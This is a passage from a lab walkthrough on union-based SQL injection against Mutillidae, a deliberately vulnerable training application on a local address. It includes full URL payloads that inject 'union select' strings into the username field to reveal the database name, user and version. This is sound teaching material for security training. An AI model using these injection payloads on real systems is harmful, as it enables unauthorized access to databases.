 
As it is having 5 columns the query worked fine and it provides the correct result

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5).

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
## OUTPUT
![serverside](./img8/22.png)

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,2,3,4,5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT